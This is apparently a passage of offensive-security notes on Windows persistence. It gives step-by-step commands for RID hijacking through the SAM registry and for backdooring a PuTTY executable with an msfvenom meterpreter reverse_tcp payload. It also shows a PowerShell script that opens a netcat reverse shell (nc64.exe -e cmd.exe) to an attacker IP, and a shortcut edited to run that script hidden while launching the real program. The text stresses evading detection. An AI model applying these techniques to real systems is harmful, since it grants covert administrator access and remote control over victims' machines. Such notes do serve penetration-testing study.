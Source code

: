 ```powershell
PsExec64.exe -i -s regedit
```
This will open the GUI of Regedit as System, from here we will go to 
```Regedit
HKLM\SAM\SAM\Domains\Account\Users\
```
Where there will be a key for each user in the machine. Since we want to modify a specific user, we need to search for a key with its RID in Hex (ex. 1010 = 0x3F2). Under the corresponding key, there will be a value called `F`, which holds the user effective RID at position `0x30`. Notice the RID is stored using little-endian notation, so its bytes appear reversed (`F203` in our example). We can then replace those two bytes with the RID of Administrator in Hex (500 = 0x01F4) switching the bytes `F401`. 
Now the next time we login as our `umprivUser` the LSASS will associate it with the same RID as Administrator and grant us the same privileges. 
Now we can enter the user via RDP ([[Remmina]],[[xfreerdp]], etc.)
```bash
xfreerdp /u:unprivUser /p:Password321 /v:IP
```

# Backdooring Files
Through the tampering of some files we know the user interacts regularly, we can gain some form of persistence. By performing some modifications to such files, we can plant backdoors that will get executed whenever the user access them. Since we don't to create any alerts that could blow our cover, the files we alter must keep working for the user as expected.
## Executable Files
If we find any executables laying around the desktop, the chances are high that the user might use it frequently. Supposing we find a shortcut to PuTTY lying around, if we checked the shortcut's properties, we could see that it (usually) leads to `C:\Program Files\PuTTY\putty.exe`. From that point, we could download the executable to our attacker's machine and modify it to run any payload we wanted.
We can easily plant a payload of our preference in any `.exe` file with [[Metasploit#Msfvenom|msfvenom]]. The binary will still work as usual but execute an additional payload silently by adding an extra thread in our binary. To create a backdoored `.exe`, we can use the following
```bash
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/x64/meterpreter/reverse_tcp lhost=eth0 lport=4444 -b "\x00" -f exe -o puttyX.exe 
```

## Shortcut Files
If we don't want to alter the executable, we can tamper with the shortcut fiel itself. Instead of pointing directly to the expected executable, we can change it to point to a script that will run a backdoor and then execute the usual program normally. For this we can access the properties of a shortcut and modify the `Target` space to point it to a script that will run a backdoor and then execute the usual program normally.
We can create a simple Powershell script in any sneaky location that we like
```powershell
Start-Process -NoNewWindow "c:\Users\user\Desktop\nc64.exe" "-e cmd.exe IP 4444" 

C:\Windows\System32\calc.exe
```
Now we can change the shortcut's target to point to our script, by doing so, the shortcut's icon will be automatically adjusted, so we will need to change it back to the original exe so we don't out ourselves. We'll also want to run our scrip on a hidden window, for which we'll add the `-windowstyle hidden` option to Powershell. Making our final target shortcut
```Target
powershell.exe -WindowsStyle hidden C:\Windows\System32\NotABackdoor.ps1
```
